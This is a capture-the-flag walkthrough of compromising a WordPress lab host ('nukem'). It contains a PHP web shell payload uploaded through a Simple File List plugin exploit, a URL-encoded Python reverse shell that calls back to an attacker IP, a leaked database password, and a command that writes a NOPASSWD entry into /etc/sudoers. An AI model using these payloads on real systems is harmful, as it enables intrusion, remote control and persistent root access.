








# Network Enumeration

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/nukem]
└─$ sudo nmap --top-ports=50 -Pn 192.168.151.105            
[sudo] password for aaron: 
Starting Nmap 7.94 ( https://nmap.org ) at 2023-08-16 05:51 +0330
Nmap scan report for 192.168.151.105
Host is up (0.44s latency).
Not shown: 47 filtered tcp ports (no-response)
PORT     STATE SERVICE
22/tcp   open  ssh
80/tcp   open  http
3306/tcp open  mysql

Nmap done: 1 IP address (1 host up) scanned in 7.51 seconds
```

# Web Enumeration

We can Identify this web app is `wordpress`

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/nukem]
└─$ gobuster dir -u "http://192.168.151.105" -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-medium-directories.txt                                                                                            
/wp-content           (Status: 301) [Size: 242] [--> http://192.168.151.105/wp-content/]
/wp-admin             (Status: 301) [Size: 240] [--> http://192.168.151.105/wp-admin/]
/wp-includes          (Status: 301) [Size: 243] [--> http://192.168.151.105/wp-includes/]
/wordpress            (Status: 301) [Size: 241] [--> http://192.168.151.105/wordpress/]
```

Use `wpscan` to get more information.

```bash
┌──(aaron㉿aacai)-[~]                                                                                                                                                             
└─$ wpscan --url "http://192.168.151.105/" -e p  
         __          _______   _____   
         \ \        / /  __ \ / ____| 
          \ \  /\  / /| |__) | (___   ___  __ _ _ __ ®
           \ \/  \/ / |  ___/ \___ \ / __|/ _` | '_ \  
            \  /\  /  | |     ____) | (__| (_| | | | |  
             \/  \/   |_|    |_____/ \___|\__,_|_| |_|  
         WordPress Security Scanner by the WPScan Team                
                         Version 3.8.24    
       Sponsored by Automattic - https://automattic.com/ 
       @_WPScan_, @ethicalhack3r, @erwan_lr, @firefart 
[+] URL: http://192.168.151.105/ [192.168.151.105] 
[+] Started: Wed Aug 16 05:54:06 2023
Interesting Finding(s):    
[+] Headers              
 | Interesting Entries:
 |  - Server: Apache/2.4.46 (Unix) PHP/7.4.10
 |  - X-Powered-By: PHP/7.4.10
 | Found By: Headers (Passive Detection) 
 | Confidence: 100% 
[+] XML-RPC seems to be enabled: http://192.168.151.105/xmlrpc.php                                                                                                                                                          
 | Found By: Direct Access (Aggressive Detection)   
 | Confidence: 100%           
 | References:             
 |  - http://codex.wordpress.org/XML-RPC_Pingback_API
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_ghost_scanner/
 |  - https://www.rapid7.com/db/modules/auxiliary/dos/http/wordpress_xmlrpc_dos/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_xmlrpc_login/
 |  - https://www.rapid7.com/db/modules/auxiliary/scanner/http/wordpress_pingback_access/      
[+] WordPress readme found: http://192.168.151.105/readme.html                                                                                                                                                              
 | Found By: Direct Access (Aggressive Detection)                                                                                                                                                                           
 | Confidence: 100%   
[+] Upload directory has listing enabled: http://192.168.151.105/wp-content/uploads/                                                                                                                                        
 | Found By: Direct Access (Aggressive Detection)                                                                                                                                                                           
 | Confidence: 100%                                                              
 [+] The external WP-Cron seems to be enabled: http://192.168.151.105/wp-cron.php                                                                                                                                            
 | Found By: Direct Access (Aggressive Detection)      
 | Confidence: 60%                                     
 | References:                                         
 |  - https://www.iplocation.net/defend-wordpress-from-ddos                                                   
 |  - https://github.com/wpscanteam/wpscan/issues/1299                                                        

[+] WordPress version 5.5.1 identified (Insecure, released on 2020-09-01).                                    
 | Found By: Rss Generator (Passive Detection)         
 |  - http://192.168.151.105/index.php/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>           
 |  - http://192.168.151.105/index.php/comments/feed/, <generator>https://wordpress.org/?v=5.5.1</generator>  

[+] WordPress theme in use: news-vibrant               
 | Location: http://192.168.151.105/wp-content/themes/news-vibrant/                                           
 | Last Updated: 2023-06-07T00:00:00.000Z              
 | Readme: http://192.168.151.105/wp-content/themes/news-vibrant/readme.txt                                   
 | [!] The version is out of date, the latest version is 1.5.0                                                
 | Style URL: http://192.168.151.105/wp-content/themes/news-vibrant/style.css?ver=1.0.1                       
 | Style Name: News Vibrant                            
 | Style URI: https://codevibrant.com/wpthemes/news-vibrant                                                   
 | Description: News Vibrant is a modern magazine theme with creative design and powerful features that lets you wri...
 | Author: CodeVibrant                                 
 | Author URI: https://codevibrant.com                 
 |                                                     
 | Found By: Css Style In Homepage (Passive Detection)                                                        
 |                                                     
 | Version: 1.0.12 (80% confidence)                    
 | Found By: Style (Passive Detection)                 
 |  - http://192.168.151.105/wp-content/themes/news-vibrant/style.css?ver=1.0.1, Match: 'Version:            1.0.12'
 [+] Enumerating Most Popular Plugins (via Passive Methods)                                                    
[+] Checking Plugin Versions (via Passive and Aggressive Methods)                                             

[i] Plugin(s) Identified:                              

[+] simple-file-list                                   
 | Location: http://192.168.151.105/wp-content/plugins/simple-file-list/                                      
 | Last Updated: 2023-06-08T11:52:00.000Z              
 | [!] The version is out of date, the latest version is 6.1.8                                                
 |                                                     
 | Found By: Urls In Homepage (Passive Detection)      
 |                                                     
 | Version: 4.2.2 (100% confidence)                    
 | Found By: Readme - Stable Tag (Aggressive Detection)                                                       
 |  - http://192.168.151.105/wp-content/plugins/simple-file-list/readme.txt                                   
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)                                            
 |  - http://192.168.151.105/wp-content/plugins/simple-file-list/readme.txt                                   

[+] tutor                                              
 | Location: http://192.168.151.105/wp-content/plugins/tutor/                                                 
 | Last Updated: 2023-07-20T10:42:00.000Z              
 | [!] The version is out of date, the latest version is 2.2.3                                                
 |                                                     
 | Found By: Urls In Homepage (Passive Detection)      
 |                                                     
 | Version: 1.5.3 (100% confidence)                    
 | Found By: Readme - Stable Tag (Aggressive Detection)                                                       
 |  - http://192.168.151.105/wp-content/plugins/tutor/readme.txt                                              
 | Confirmed By: Readme - ChangeLog Section (Aggressive Detection)                                            
 |  - http://192.168.151.105/wp-content/plugins/tutor/readme.txt                                              

[!] No WPScan API Token given, as a result vulnerability data has not been output.                            
[!] You can get a free API token with 25 daily requests by registering at https://wpscan.com/register         
```

Search on `searchsploit` for get plugin exploit.

There are 3 exploits related to these plugins.

[WordPress Plugin Tutor.1.5.3 - Local File Inclusion](https://www.exploit-db.com/exploits/48058)

[WordPress Plugin Simple File List 4.2.2 - Arbitrary File Upload](https://www.exploit-db.com/exploits/48979)

[WordPress Plugin Simple File List 4.2.2 - Remote Code Execution](https://www.exploit-db.com/exploits/48449)

Try RCE exploit, change the payload.

```python
def generate():
    filename = f'{random.randint(0, 10000)}.png'
    password = hashlib.md5(bytearray(random.getrandbits(8)
                                     for _ in range(20))).hexdigest()
    with open(f'{filename}', 'wb') as f:
        payload = "<?php if(isset($_GET['cmd'])){system($_GET['cmd']);} ?>"
        f.write(payload.encode())
    print(f'[ ] File {filename} generated with password: {password}')
    return filename, password
```

Then running this exploit.

```bash
┌──(aaron㉿aacai)-[~/Desktop/pg/nukem]
└─$ python3 exploit.py http://192.168.151.105/ 
[ ] File 395.png generated with password: 6791fc6e6ebc68e8c92f75bda0bbedb6
[ ] File uploaded at http://192.168.151.105//wp-content/uploads/simple-file-list/395.png
[ ] File moved to http://192.168.151.105//wp-content/uploads/simple-file-list/395.php
[+] Exploit seem to work.
[*] Confirmning ...
```

Check with browser.



Now try reverse shell with `url encode`.

```python
python%20-c%20%27import%20socket%2Csubprocess%2Cos%3Bs%3Dsocket.socket%28socket.AF_INET%2Csocket.SOCK_STREAM%29%3Bs.connect%28%28%22192.168.45.153%22%2C80%29%29%3Bos.dup2%28s.fileno%28%29%2C0%29%3B%20os.dup2%28s.fileno%28%29%2C1%29%3Bos.dup2%28s.fileno%28%29%2C2%29%3Bimport%20pty%3B%20pty.spawn%28%22%2Fbin%2Fbash%22%29%27
```

Then get rev shell.



# PE

## Information Collection

```bash
╔══════════╣ Operative system
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#kernel-exploits                                               
Linux version 5.8.9-arch2-1 (linux@archlinux) (gcc (GCC) 10.2.0, GNU ld (GNU Binutils) 2.35) #1 SMP PREEMPT Sun, 13 Sep 2020 23:44:55 +0000                                                                                 
LSB Version:    1.4
Distributor ID: Arch
Description:    Arch Linux
Release:        rolling
Codename:       n/a

root     /usr/bin/python /home/commander/python_rest_flask/server.py

╔══════════╣ Active Ports
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#open-ports                                                                                                                                               
tcp        0      0 127.0.0.1:5901          0.0.0.0:*               LISTEN      -  
tcp        0      0 0.0.0.0:22              0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:36445           0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:5000            0.0.0.0:*               LISTEN      -                   
tcp        0      0 0.0.0.0:13000           0.0.0.0:*               LISTEN      554/nginx: worker p 
tcp6       0      0 :::3306                 :::*                    LISTEN      -                   
tcp6       0      0 :::80                   :::*                    LISTEN      -                   
tcp6       0      0 :::22                   :::*                    LISTEN      -                   
tcp6       0      0 :::36445                :::*                    LISTEN      -  

╔══════════╣ Superusers
root:x:0:0::/root:/bin/bash                                                                                                                                                                                                 

╔══════════╣ Users with console
commander:x:1000:1000::/home/commander:/bin/bash                                                     
root:x:0:0::/root:/bin/bash
╔══════════╣ All users & groups
uid=0(root) gid=0(root) groups=0(root)          
uid=1(bin) gid=1(bin) groups=1(bin),3(sys),2(daemon[0m)
uid=1000(commander) gid=1000(commander) groups=1000(commander)
uid=102(polkitd) gid=102(polkitd) groups=102(polkitd),26(proc)
uid=14(ftp) gid=11(ftp) groups=11(ftp)
uid=140(usbmux) gid=140(usbmux) groups=140(usbmux)
uid=2(daemon[0m) gid=2(daemon[0m) groups=2(daemon[0m),999(adm),1(bin)
uid=33(http) gid=33(http) groups=33(http)
uid=65534(nobody) gid=65534(nobody) groups=65534(nobody)
uid=68(uuidd) gid=68(uuidd) groups=68(uuidd)
uid=8(mail) gid=12(mail) groups=12(mail)
uid=81(dbus) gid=81(dbus) groups=81(dbus)
uid=973(git) gid=973(git) groups=973(git)
uid=974(lightdm) gid=974(lightdm) groups=974(lightdm)
uid=975(colord) gid=975(colord) groups=975(colord)
uid=976(avahi) gid=976(avahi) groups=976(avahi)
uid=977(mysql) gid=977(mysql) groups=977(mysql)
uid=978(systemd-coredump) gid=978(systemd-coredump) groups=978(systemd-coredump)
uid=979(systemd-timesync) gid=979(systemd-timesync) groups=979(systemd-timesync)
uid=980(systemd-resolve) gid=980(systemd-resolve) groups=980(systemd-resolve)
uid=981(systemd-network) gid=981(systemd-network) groups=981(systemd-network)
uid=982(systemd-journal-remote) gid=982(systemd-journal-remote) groups=982(systemd-journal-remote)

═════════════════════════════╣ Software Information ╠════════════════════════════
╔══════════╣ Useful software
/usr/bin/base64                                                                                                                                                                                                             
/usr/bin/curl
/usr/bin/perl
/usr/bin/php
/usr/bin/ping
/usr/bin/python
/usr/bin/python3
/usr/bin/sudo
/usr/bin/wget

╔══════════╣ Analyzing Wordpress Files (limit 70)
-rw-r--r-- 1 http root 2913 Sep 18  2020 /srv/http/wp-config.php                     
define( 'DB_NAME', 'wordpress' );
define( 'DB_USER', 'commander' );
define( 'DB_PASSWORD', 'CommanderKeenVorticons1990' );
define( 'DB_HOST', 'localhost' );

╔══════════╣ Searching uncommon passwd files (splunk)
passwd file: /etc/pam.d/passwd 
passwd file: /etc/passwd
passwd file: /home/commander/.vnc/passwd
passwd file: /usr/share/factory/etc/passwd
```

## SUID



We can use `dosbox` to PE, check it out on [GTFobins](https://gtfobins.github.io/gtfobins/dosbox/).



The `dosbox` version is 0.74-3.



Get user `commander` password, also we can find  the port 5901 was opened. So use ssh to tunnel this port.

```bash
ssh -L 5901:localhost:5901 commander@192.168.151.105
```

Now we can see the 5901 is running on our kali.



Use `remmina` to login VNC. Then can get a GUI window. Then running the `dosbox`



Use `mount` to mount disk to /.

```bash
mount k /
k:
```

Right now can directly see the proof.txt of root.


But we need stable shell, change the `sudoer` for commander.

```bash
echo commander ALL=(ALL) NOPASSWD:ALL >> /etc/sudoers
```

Then `sudo su` get root permission.




